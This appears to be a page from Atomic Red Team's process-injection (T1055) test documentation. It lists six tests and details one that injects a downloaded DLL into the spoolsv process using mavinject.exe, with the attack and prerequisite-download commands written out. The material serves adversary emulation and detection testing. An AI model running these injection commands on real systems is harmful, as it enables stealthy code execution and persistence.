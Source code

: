 Malware commonly utilizes process injection to access system resources through which Persistence and other environment modifications can be made. More sophisticated samples may perform multiple process injections to segment modules and further evade detection, utilizing named pipes or other inter-process communication (IPC) mechanisms as a communication channel.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Injection via mavinject.exe](#atomic-test-1---process-injection-via-mavinjectexe)

- [Atomic Test #2 - Process Injection via PowerSploit](#atomic-test-2---process-injection-via-powersploit)

- [Atomic Test #3 - Shared Library Injection via /etc/ld.so.preload](#atomic-test-3---shared-library-injection-via-etcldsopreload)

- [Atomic Test #4 - Shared Library Injection via LD_PRELOAD](#atomic-test-4---shared-library-injection-via-ld_preload)

- [Atomic Test #5 - Process Injection via C#](#atomic-test-5---process-injection-via-c)

- [Atomic Test #6 - svchost writing a file to a UNC path](#atomic-test-6---svchost-writing-a-file-to-a-unc-path)


<br/>

## Atomic Test #1 - Process Injection via mavinject.exe
Windows 10 Utility To Inject DLLS

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to Inject | Path | PathToAtomicsFolder\T1055\src\x64\T1055.dll|
| process_id | PID of input_arguments | Int | (get-process spoolsv).id|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$mypid = #{process_id}
mavinject $mypid /INJECTRUNNING #{dll_payload}
```



#### Dependencies:  Run with `powershell`!
##### Description: Utility to inject must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055.dll" -OutFile "#{dll_payload}"
```
